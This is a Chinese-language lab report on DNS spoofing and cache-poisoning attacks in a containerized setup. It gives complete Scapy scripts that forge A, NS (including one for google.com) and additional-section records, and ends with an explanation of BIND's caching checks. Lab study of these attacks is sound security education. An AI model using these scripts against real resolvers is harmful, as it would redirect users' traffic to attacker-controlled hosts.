# DNS Local

## DNS 配置测试

使用命令 `dig ns.attacker32.com` 验证如下图所示：



与 zone file 对应，配置没有问题，使用 `dig www.example.com`：



也可以从官方 nameserver 查到相关信息，使用命令 `dig @ns.attacker32.com www.example.com`：



与 zone file 也对应

***

## 任务 1：直接向用户伪造响应

编写代码如下：

```python
#!/usr/bin/env python3
from scapy.all import *
import sys

NS_NAME = "example.com"

def spoof_dns(pkt):
  if (DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8')):
    print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))

    ip = IP(dst = pkt[IP].src, src = pkt[IP].dst)
    udp = UDP(dport = pkt[UDP].sport, sport = 53)
    Anssec = DNSRR(rrname = pkt[DNS].qd.qname, type = 'A', rdata = '1.2.3.4')
    dns = DNS(id = pkt[DNS].id, qd = pkt[DNS].qd, aa = 1, qr = 1, an = Anssec)
    spoofpkt = ip/udp/dns
    send(spoofpkt)


myFilter = "udp and (src host 10.9.0.5 and dst port 53)"
pkt=sniff(iface='br-ac42c5c215aa', filter=myFilter, prn=spoof_dns)
```

在 attacker 容器中运行这个程序，并在用户容器中 `dig www.example.com`，发现攻击成功：





***

## 任务 2：DNS 缓存投毒攻击 -- 伪造答案

修改代码如下：

```python
#!/usr/bin/env python3
from scapy.all import *
import sys

NS_NAME = "example.com"

def spoof_dns(pkt):
  if (DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8')):
    print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))

    ip = IP(dst = pkt[IP].src, src = pkt[IP].dst)
    udp = UDP(dport = pkt[UDP].sport, sport = 53)
    Anssec = DNSRR(rrname = pkt[DNS].qd.qname, type = 'A', rdata = '1.2.3.4')
    dns = DNS(id = pkt[DNS].id, qd = pkt[DNS].qd, aa = 1, qr = 1, an = Anssec)
    spoofpkt = ip/udp/dns
    send(spoofpkt)


myFilter = "udp and (src host 10.9.0.53 and dst port 53)"
pkt=sniff(iface='br-ac42c5c215aa', filter=myFilter, prn=spoof_dns)
```

再次运行尝试，发现也攻击成功：





同时就能发现 DNS 服务器的缓存也中毒：



***

## 任务 3： 伪造 NS 记录

编写代码如下：

```python
#!/usr/bin/env python3
from scapy.all import *
import sys

NS_NAME = "example.com"

def spoof_dns(pkt):
  if (DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8')):
    print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))

    ip = IP(dst = pkt[IP].src, src = pkt[IP].dst)
    udp = UDP(dport = pkt[UDP].sport, sport = 53)
    Anssec = DNSRR(rrname = pkt[DNS].qd.qname, type = 'A', rdata = '1.2.3.4')
    NSsec = DNSRR(rrname = 'example.com', type = 'NS', rdata = 'ns.attacker32.com')
    dns = DNS(id = pkt[DNS].id, qd = pkt[DNS].qd, aa = 1, qr = 1, ns = NSsec, an = Anssec)
    spoofpkt = ip/udp/dns
    send(spoofpkt)


myFilter = "udp and (src host 10.9.0.53 and dst port 53)"
pkt=sniff(iface='br-ac42c5c215aa', filter=myFilter, prn=spoof_dns)
```

运行代码，在用户容器中 `dig example.com`，能得到：



继续尝试 `dig mail.example.com`，得到：



再次查看 DNS 服务器缓存：



可见攻击成功

***

## 任务 4：伪造另一个域的 NS 记录

修改代码如下：

```python
#!/usr/bin/env python3
from scapy.all import *
import sys

NS_NAME = "example.com"

def spoof_dns(pkt):
  if (DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8')):
    print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))

    ip = IP(dst = pkt[IP].src, src = pkt[IP].dst)
    udp = UDP(dport = pkt[UDP].sport, sport = 53)
    Anssec = DNSRR(rrname = pkt[DNS].qd.qname, type = 'A', rdata = '1.2.3.4')
    NSsec = DNSRR(rrname = 'example.com', type = 'NS', rdata = 'ns.attacker32.com')
    NSsec1 = DNSRR(rrname = 'google.com', type = 'NS', rdata = 'ns.attacker32.com')
    dns = DNS(id = pkt[DNS].id, qd = pkt[DNS].qd, aa = 1, qr = 1, nscount = 2, ns = NSsec1/NSsec, an =Anssec)
    spoofpkt = ip/udp/dns
    send(spoofpkt)


myFilter = "udp and (src host 10.9.0.53 and dst port 53)"
pkt=sniff(iface='br-ac42c5c215aa', filter=myFilter, prn=spoof_dns)
```

再次运行，尝试 `dig www.example.com`，能得到 DNS 服务器缓存：



可见攻击成功

***

## 任务 5：在附加部分添加记录

修改代码：

```python
#!/usr/bin/env python3
from scapy.all import *
import sys

NS_NAME = "example.com"

def spoof_dns(pkt):
  if (DNS in pkt and NS_NAME in pkt[DNS].qd.qname.decode('utf-8')):
    print(pkt.sprintf("{DNS: %IP.src% --> %IP.dst%: %DNS.id%}"))

    ip = IP(dst = pkt[IP].src, src = pkt[IP].dst)
    udp = UDP(dport = pkt[UDP].sport, sport = 53)
    Anssec = DNSRR(rrname = pkt[DNS].qd.qname, type = 'A', rdata = '1.2.3.4')
    
    Adsec1 = DNSRR(rrname = 'ns.attacker32.com', type = 'A', rdata = '1.2.3.4')
    Adsec2 = DNSRR(rrname = 'ns.example.net', type = 'A', rdata = '5.6.7.8')
    Adsec3 = DNSRR(rrname = 'www.facebook.com', type = 'A', rdata = '3.4.5.6')
    
    NSsec1 = DNSRR(rrname = 'example.com', type = 'NS', rdata = 'ns.attacker32.com')
    NSsec2 = DNSRR(rrname = 'example.com', type = 'NS', rdata = 'ns.example.com')
    dns = DNS(id = pkt[DNS].id, qd = pkt[DNS].qd, aa = 1, rd = 0, qr = 1, qdcount = 1, ancount = 1, nscount = 2, arcount = 3, ns = NSsec1/NSsec2, an = Anssec, ar = Adsec1/Adsec2/Adsec3)
    spoofpkt = ip/udp/dns
    send(spoofpkt)


myFilter = "udp and (src host 10.9.0.53 and dst port 53)"
pkt=sniff(iface='br-ac42c5c215aa', filter=myFilter, prn=spoof_dns)
```

缓存结果如下：



可以看到两条 NS 记录都有被写进，三条附加记录都没有写进：

- ns.attacker32.com A 1.2.3.4 没有按伪造值进入缓存，缓存中实际出现的是 ns.attacker32.com A 10.9.0.153
- ns.example.net A 5.6.7.8 没有被缓存
- www.facebook.com A 3.4.5.6 没有被缓存

这是因为解析器只更愿意接受“和当前被委派区域有关系”的附加信息。dump.db 展示的是 BIND 处理后的缓存数据库，而不是原始 DNS 响应报文，因此不会保留“Additional section”这种显示形式。Additional 中的记录只有在通过 BIND 的相关性和可信性检查后，才会以普通缓存 RR 的形式出现。


